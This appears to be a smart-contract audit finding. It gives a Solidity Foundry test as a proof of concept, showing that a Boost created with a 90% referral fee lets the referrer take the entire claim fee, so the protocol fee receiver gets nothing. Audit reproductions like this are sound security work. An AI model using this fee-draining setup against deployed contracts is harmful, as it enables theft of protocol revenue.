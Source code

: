 Please copy the code below into BoostCore.t.sol and run the test.

```solidity
    
    uint64 public constant boostAdditionalReferralFee = 9_000; // additional 90%
    uint256 public constant PRECISION = 10_000;
    uint256 public constant BASE_FEE = 1_000; // 10%
    bytes invalidCreateCalldata =
        LibZip.cdCompress(
            abi.encode(
                BoostCore.InitPayload({
                    budget: budget,
                    action: action,
                    validator: BoostLib.Target({
                        isBase: true,
                        instance: address(0),
                        parameters: ""
                    }),
                    allowList: allowList,
                    incentives: _makeIncentives(1),
                    protocolFee: 500, // 5%
                    referralFee: boostAdditionalReferralFee, // 90%
                    maxParticipants: 10_000,
                    owner: address(1)
                })
            )
        );

    function testClaimIncentive_ReferralTakesAllFees_audit() public {
        uint256 claimFee = 0.000075 ether;
        // Create a Boost first
        boostCore.createBoost(invalidCreateCalldata);

        // Mint an ERC721 token to the claimant (this contract)
        uint256 tokenId = 1;
        mockERC721.mint{value: 0.1 ether}(address(this));
        mockERC721.mint{value: 0.1 ether}(address(this));
        mockERC721.mint{value: 0.1 ether}(address(this));

        // Prepare the data payload for validation
        bytes memory data = abi.encode(address(this), abi.encode(tokenId));
        address referralAddress = makeAddr("referral");
        address protocolFeeReceiver = boostCore.protocolFeeReceiver();
        uint256 initialProtocolFeeReceiverBalance = protocolFeeReceiver.balance;
        // Claim the incentive
        boostCore.claimIncentive{value: claimFee}(0, 0, referralAddress, data);

        uint256 actualReferrerBalance = referralAddress.balance;
        uint256 finalProtocolFeeReceiverBalance = protocolFeeReceiver.balance;
        // check referral balance
        assertEq(actualReferrerBalance, claimFee);
        // check protocol fee receiver balance
        assertEq(
            (finalProtocolFeeReceiverBalance -
                initialProtocolFeeReceiverBalance),
            0
        );
        // Check the claims
        BoostLib.Boost memory boost = boostCore.getBoost(0);
        ERC20Incentive _incentive = ERC20Incentive(
            address(boost.incentives[0])
        );
        assertEq(_incentive.claims(), 1);
    }
```